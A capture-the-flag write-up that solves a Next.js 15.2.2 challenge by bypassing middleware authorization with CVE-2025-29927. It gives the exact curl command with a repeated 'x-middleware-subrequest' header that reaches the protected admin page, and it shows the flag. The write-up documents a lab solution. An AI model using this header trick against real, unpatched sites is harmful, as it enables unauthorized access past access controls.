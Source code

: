# EPIC CAKE BATTLES OF HISTORY!!!

```
Difficulty: Medium
Author: Emil8250

After all this time, it's finally time to figure out which cake is best: BRUNSVIGER VS. OTHELLO! BEGIN!
```

In the attachment:

```json
// package.json
{
  "name": "epic-cake-battles",
  "version": "0.1.0",
  "private": true,
  "scripts": {
    "dev": "next dev --turbopack",
    "build": "next build",
    "start": "next start",
    "lint": "next lint"
  },
  "dependencies": {
    "next": "15.2.2",
    "react": "^19.0.0",
    "react-dom": "^19.0.0"
  },
  "devDependencies": {
    "@tailwindcss/postcss": "^4",
    "@types/node": "^20",
    "@types/react": "^19",
    "@types/react-dom": "^19",
    "tailwindcss": "^4",
    "typescript": "^5"
  }
}
```

```javascript
// src/middleware.ts
import { NextResponse } from 'next/server'
import type { NextRequest } from 'next/server'
 
// This function can be marked `async` if using `await` inside
export function middleware(request: NextRequest) {
  // @ts-ignore
    if("CHAMPION" == "FOUND")
        return NextResponse.redirect(new URL('/admin', request.url))
  return NextResponse.redirect(new URL('/', request.url))
}
 
// See "Matching Paths" below to learn more
export const config = {
  matcher: '/admin/:path*',
}
```

```javascript
// src/app/admin/page.tsx
export default function Home() {
    const flag = "brunner{REDACTED}"
  return (
        <span>{flag}</span>
  );
}
```

It hints that we need to bypass the middleware to access the admin page. Searching Next.js 15.2.2 leads to [CVE-2025-29927: Next.js Middleware Authorization Bypass - Technical Analysis](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass).

We just following the descriptions in the blog (in `For versions 13.2.0 and later:` part), by adding `x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` header:

```shell
curl -v https://epic-cake-battles-f4c2a78204e26004.challs.brunnerne.xyz/admin -H "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware"
```

The flag is shown: `brunner{0th3llo-iz-b3st-cake}`
